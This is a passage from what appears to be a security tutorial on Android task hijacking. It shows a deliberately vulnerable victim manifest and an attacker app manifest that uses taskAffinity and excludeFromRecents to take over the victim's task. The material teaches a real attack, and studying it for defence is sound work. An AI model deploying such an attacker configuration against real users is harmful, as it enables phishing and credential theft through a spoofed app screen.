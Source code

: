 #### Creating a Vulnerable Victim App

To demonstrate the attack, let’s create a vulnerable app (e.g., _Super Secure App_). Below is its `AndroidManifest.xml`:

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.zombie.ssa">

    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:logo="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.SuperSecureApp">
        <activity android:name=".LoggedIn"></activity>
        <activity android:name=".MainActivity" android:launchMode="singleTask">

            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```

The line `android:launchMode="singleTask"` introduces the vulnerability.

#### Creating the Attacker’s App

Now, let’s create an attacker app that exploits this vulnerability. Below is its `AndroidManifest.xml`:

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    package="com.zombie.attackerapp"
    tools:ignore="ExtraText">
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.AttackerApp"
        android:taskAffinity="com.zombie.ssa">
        <activity android:name=".MainActivity" android:launchMode="singleTask" android:excludeFromRecents="true">

            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```
